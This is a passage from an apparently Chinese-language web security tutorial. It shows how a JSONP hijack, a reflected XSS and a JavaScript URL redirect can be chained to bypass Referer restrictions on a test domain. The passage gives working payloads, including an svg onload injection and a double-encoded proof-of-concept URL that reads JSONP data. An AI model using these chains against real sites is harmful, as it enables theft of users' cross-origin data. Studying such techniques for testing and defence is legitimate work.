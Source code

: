 当 `referer = a.com` :

![xss](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-08-01/0x09.png)

当 `referer = vulkey.cn` :

![xss](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-08-01/0x10.png)

当 `referer = *.vulkey.cn` :

![xss](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-08-01/0x11.png)

这个接口验证了Referer使用之前的方法没办法绕过，于是采用组合拳搭配。 

于是有了如下的构建：`http://test.vulkey.cn/link.php?url=http://vulkey.cn/jsonp.php?callback=vulkey<svg/onload=alert(1)>`

![xss](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-08-01/0x12.png)

###### JSONP劫持+反射XSS+URL跳转

这个案例是基于上面反射XSS案例的，现在已知的三个问题：

1. JSONP接口 `http://vulkey.cn/jsonp.php?callback=vulkey` **有Referer限制**
2. 反射XSS `http://vulkey.cn/jsonp.php?callback=vulkey<svg/onload=alert(1)>` **有Referer限制**
3. JavaScript URL跳转 `http://test.vulkey.cn/link.php?url=http://www.hi-ourlife.com` 

一般JSONP跨域劫持的PoC是这样的：

```html
<script>function jsonp2(data){alert(JSON.stringify(data));}</script>
<script src="url"></script>
```

但是因为有Referer限制，就不能在自己的站点上做PoC了，就只能利用反射XSS漏洞构建PoC：

`http://vulkey.cn/jsonp.php?callback=%3Cscript%3Efunction+vulkey(data){alert(JSON.stringify(data));}%3C/script%3E%3Cscript+src=%22http://vulkey.cn/jsonp.php?callback=vulkey%22%3E%3C/script%3E`

但仅仅如此是不够是因为XSS有Referer来源的限制，所以最终的PoC应该是这样的：

`http://test.vulkey.cn/link.php?url=http://vulkey.cn/jsonp.php?callback=%253Cscript%253Efunction%2bvulkey%28data%29%7Balert%28JSON.stringify%28data%29%29%3B%7D%253C%2fscript%253E%253Cscript%2bsrc%3D%2522http%3A%2f%2fvulkey.cn%2fjsonp.php%3Fcallback%3Dvulkey%2522%253E%253C%2fscript%253E`

![bypass](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-08-01/0x13.png)

也就是说在这里JS的URL跳转解决了XSS的Referer限制问题，而XSS又解决了JSONP接口的Referer限制问题，这是一个联合组合拳。如果你发现的XSS没有Referer限制则不需要这么"麻烦"。

# 结尾

文中总结一些小的TIPS，针对我遇到的实际案例进行了漏洞的复现截图，打开思维其实还有更多更好的思路，有机会后期会写出来。
